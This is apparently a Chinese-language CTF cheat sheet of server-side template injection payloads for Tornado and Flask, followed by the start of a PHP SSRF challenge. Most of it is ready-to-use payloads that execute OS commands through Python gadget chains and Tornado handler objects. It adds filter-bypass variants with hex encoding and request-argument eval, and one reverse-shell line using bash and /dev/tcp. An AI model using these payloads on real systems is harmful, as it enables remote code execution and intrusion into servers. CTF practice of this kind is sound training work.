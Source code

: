 ```py
2、 直接使用函数
{{__import__("os").popen("ls").read()}}
{{eval('__import__("os").popen("ls").read()')}}

3、导入库
{% import os %}{{os.popen("ls").read()}}

4、flask中的payload大部分也通用
{{"".__class__.__mro__[-1].__subclasses__()[133].__init__.__globals__["popen"]('ls').read()}}
{{"".__class__.__mro__[-1].__subclasses__()[x].__init__.__globals__['__builtins__']['eval']("__import__('os').popen('ls').read()")}}

其中"".__class__.__mro__[-1].__subclasses__()[133]为<class 'os._wrap_close'>类
第二个中的x为有__builtins__的class

5、利用tornado特有的对象或者方法
{{handler.__init__.__globals__['__builtins__']['eval']("__import__('os').popen('ls').read()")}}
{{handler.request.server_connection._serving_future._coro.cr_frame.f_builtins['eval']("__import__('os').popen('ls').read()")}}

6、利用tornado模板中的代码注入
{% raw "__import__('os').popen('ls').read()"%0a    _tt_utf8 = eval%}{{'1'%0a    _tt_utf8 = str}}
```

有过滤

```py
1.过滤一些关键字如import、os、popen等（过滤引号该方法同样适用）
{{eval(handler.get_argument(request.method))}}
然后看下请求方法，如果是get的话就可以传?GET=__import__("os").popen("ls").read()，post同理
2.过滤了括号未过滤引号
{% raw "\x5f\x5f\x69\x6d\x70\x6f\x72\x74\x5f\x5f\x28\x27\x6f\x73\x27\x29\x2e\x70\x6f\x70\x65\x6e\x28\x27\x6c\x73\x27\x29\x2e\x72\x65\x61\x64\x28\x29"%0a    _tt_utf8 = eval%}{{'1'%0a    _tt_utf8 = str}}
3.过滤括号及引号
下面这种方法无回显，适用于反弹shell，为什么用exec不用eval呢？
是因为eval不支持多行语句。
__import__('os').system('bash -i >& /dev/tcp/xxx/xxx 0>&1')%0a"""%0a&data={%autoescape None%}{% raw request.body%0a    _tt_utf8=exec%}&%0a"""
4.其他
通过参考其他师傅的文章学到了下面的方法（两个是一起使用的）
{{handler.application.default_router.add_rules([["123","os.po"+"pen","a","345"]])}}
{{handler.application.default_router.named_rules['345'].target('/readflag').read()}}
```

## ssrf

### web351

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
$url=$_POST['url'];
$ch=curl_init($url);
curl_setopt($ch, CURLOPT_HEADER, 0);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
$result=curl_exec($ch);
curl_close($ch);
echo ($result);
?>
# curl_init — 初始化 cURL 会话    
# curl_setopt — 设置一个cURL传输选项
# curl_exec — 执行 cURL 会话
```